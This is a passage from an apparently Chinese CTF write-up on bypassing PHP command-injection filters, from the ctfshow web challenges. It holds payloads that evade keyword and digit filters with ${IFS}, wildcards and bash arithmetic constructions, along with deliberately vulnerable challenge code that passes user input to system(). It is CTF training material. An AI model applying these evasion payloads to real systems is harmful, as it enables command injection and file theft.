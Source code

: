 payload:

```bash
grep${IFS}f${IFS}fla?.php
1
```

打印`flag.php`中有`f`的行![在这里插入图片描述](https://img-blog.csdnimg.cn/20201018205636261.png#pic_center)





##### 0x16 使用~$()构造数字

例题：ctfshow-web入门57

```bash
<?php
// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
} 
1234567891011
```

需要传数字36进去，但是过滤了数字。

```bash
$(())=0
$((~$(())))=-1
12
```

构造过程：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201019125212583.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0NjU3ODk5,size_16,color_FFFFFF,t_70#pic_center)
于是payload：

```bash
$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
1
```





##### 0x17 uaf脚本绕过disable_function

